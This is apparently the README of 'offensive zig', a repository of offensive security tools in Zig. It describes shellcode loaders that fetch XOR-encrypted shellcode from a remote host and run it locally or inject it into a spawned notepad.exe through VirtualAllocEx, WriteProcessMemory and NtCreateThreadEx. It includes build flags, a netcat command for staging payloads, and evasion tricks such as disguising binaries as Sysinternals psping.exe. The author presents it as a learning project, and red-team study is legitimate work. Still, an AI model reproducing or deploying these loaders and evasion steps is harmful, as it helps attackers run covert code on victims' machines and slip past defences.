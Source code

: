 # offensive zig
> offensive security tools written in zig 

**NOTE**: built w/ zig 0.14.0-dev.138+02b3d5b58

# contents
**utilities**:
- xor.py
> script to xor encrypt shellcode

**tools**:
- rwxhunter
> identifies RWX memory regions for all processes

**shellcode loaders**:
- local
> injects shellcode downloaded from a remote socket in the local process and executes via a function pointer
- remote
> creates a sacrificial *notepad.exe* process, allocates RWX memory, then executes via remote thread

## opsec
> generally this is just a learning tool for me, but i am also trying to implement opsec-aware techniques which reduce detections for payloads

### masking executable metadata
executable metadata is masked to appear as `psping.exe` from Sysinternals, but this can be customized in `metadata.rc` 

## shellcode loaders
#### building
> this will build all payloads as individual `.exe` files

`zig build -Dtarget=x86_64-windows -Dhost="<ip>" -Dport=<port> -Dsize=<payload_size>`

#### running 
1. stage shellcode w netcat
	`sudo nc -vv -l -k -p 80 < payload.bin`
2. download & execute the `.exe` on target
3. profit

### local
#### overview
1. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
2. xor decrypts downloaded shellcode using hardcoded key

3. allocates RWX memory within the current process using `std.os.windows.VirtualAlloc` and copies the shellcode into the region

4. executes the memory by creating a function which points to the base address of the region: `const func: *const fn () callconv(.C) i32 = @ptrCast(memory);`

### remote
#### overview
1. spawns a new *notepad.exe* process in a suspended state and opens a handle to it
   
2. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
3. xor decrypts downloaded shellcode using hardcoded key
   
4. allocates RWX memory in the remote process using `VirtualAllocEx` and write shellcode to the region using `WriteProcessMemory`

5. finally, spawns a remote thread pointed at the memory region of the *notepad.exe* process which contains our shellcode using `NtCreateThreadEx`, then resumes the thread to execute
